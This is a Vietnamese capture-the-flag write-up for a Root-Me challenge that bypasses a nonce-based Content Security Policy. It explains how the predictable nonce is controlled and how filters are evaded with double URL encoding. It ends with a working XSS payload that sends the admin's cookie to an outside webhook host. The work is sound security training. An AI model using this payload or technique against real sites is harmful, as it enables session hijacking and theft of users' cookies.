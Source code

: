 ## CSP Bypass - Nonce

Challenge: http://challenge01.root-me.org/web-client/ch49/

Đầu tiên khi vào trang web ta thấy response trả về có CSP:

![alt text](image.png)

```http
Content-Security-Policy: connect-src 'none'; font-src 'none'; frame-src 'none'; img-src 'self'; manifest-src 'none'; media-src 'none'; object-src 'none'; script-src 'nonce-YTxiYXNlIGhyZTE2LTExLTIwMjQ='; style-src 'self'; worker-src 'none'; frame-ancestors 'none'; block-all-mixed-content;
```

Dùng https://csp-evaluator.withgoogle.com/ để check ta biết được:\
![alt text](image-1.png)

Ban đầu mình thử đi theo hướng `base-uri` đó là dùng thẻ    `<base>` nhưng không thành công

Chú ý lại phần `Nonce` của `script-src`, phần `Nonce` này là base64 cho 10 kí tự đầu + ngày tháng năm:\
![alt text](image-2.png)  

Từ đây ta cố định 10 kí tự đầu và gửi request để lấy được `nonce` sau đó có thể thêm thẻ `script` và thêm nonce đó vào mà response trả về `nonce` vẫn như cũ, vậy là ta đã kiểm soát được `nonce`: 

![alt text](image-3.png)

Thử với `alert(1)`:\
![alt text](image-5.png)\
![alt text](image-4.png)

Tiếp tục thử ta biết được nó sẽ chặn nếu dùng các kí tự: `.`, `document` và nhiệm vụ của ta là lấy cookie việc chặn các kí tự này khiến cho ta không thể đi theo lối mòn là: `document.cookie` được. 

Mặt khác ở đây không thể dùng `fetch` vì nó có `Content-Security-Policy: connect-src 'none'` nếu dùng fetch thì console sẽ thông báo không được phép kết nối do CSP có `connect-src 'none`

Do đó mình dùng với `location` kết hợp với `decodeURIComponent` để có thể decode `.` và `document` đưa vào dạng URL encode và ở đây phải encode 2 lần vì khi gửi request bên server sẽ tự decode đoạn input nhập vào:\
![alt text](image-6.png) 

Ngoài ra chú ý dấu `+` sẽ được tính là khoảng trắng nên để nó vẫn là dấu `+` ở trong lệnh js thì ta cũng cần encode thành `%2b`

Thành công gửi gói tin nhưng document.cookie chỉ được nhận dạng là text không phải là lệnh js:\
![alt text](image-7.png)

Vậy ở đây ta đổi hướng sang 1 cách dùng khác là dùng `window["document"]["cookie"]`:\
![alt text](image-8.png)

Payload cuối cùng:
`aaaaaaaaaa<script+nonce="YWFhYWFhYWFhYTE2LTExLTIwMjQ=">location=("//webhook"%2bdecodeURIComponent("%252E")%2b"site/1da3fdfc-04bc-472e-b524-c6fb2b3bde3a?c="%2bwindow[decodeURIComponent("%25%36%34%25%36%66%25%36%33%25%37%35%25%36%64%25%36%35%25%36%65%25%37%34")]["cookie"])</script>`

Và sau đó gửi url đó cho admin đợi response

![alt text](image-9.png)






















